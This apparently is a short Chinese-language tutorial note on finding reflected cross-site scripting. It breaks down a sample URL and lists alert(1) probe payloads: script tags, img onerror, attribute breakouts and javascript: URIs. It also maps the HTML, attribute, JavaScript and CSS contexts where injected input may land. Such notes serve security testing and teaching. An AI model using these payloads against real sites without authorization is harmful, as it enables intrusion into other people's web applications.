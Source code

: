 ###反射型XSS挖掘
例如URL : http://www.foo.com/path/f.php?id=1&type=cool#new
分为http、www.foo.com、/path/f.php、id=1&type=cool、neww。
主要着手点是path部分：/path/f.php和query部分：id1&type=cool

####测试是否有xss点：

html中，例如URL：http://www.foo.com/xss.php?id=1

    <script>alert(1)</script>
    '"><script>alert(1)</script>
    <img/ src=@ onerror=alert(1)>
    '"><img/ src=@ onerror=alert(1)>
    
    ' onmouseover=alert(1) x='
    " onmouseover=alert(1) x="
    ` onmouseover=alert(1) x=`
    
    javascript:alert(1)//
    '";alert(1)//
    </script><script>alert(1)//
    ...
    
####URL的这个输入点是id=1，则输出点可能为：
HTML标签之间，`<div id="body">[输出]</div>`
> 截断:`</title><script>alert(1)</script>`

HTML标签之内，`<input type="text" value="[输出]">`
> 在src/href/action属性内，`<a href="[输出]">click me</a>`
在on*时间内，`<a href="#" onclick="[输出]">click me</a>`
在style属性，`<a href="#" style="[输出]">click me</a>`


javascript代码值，`<script>a="[输出]";...</script>`
> `</script><script>alert(1)//`


CSS代码值，`<style>body{font-size；[输出];...}</style>`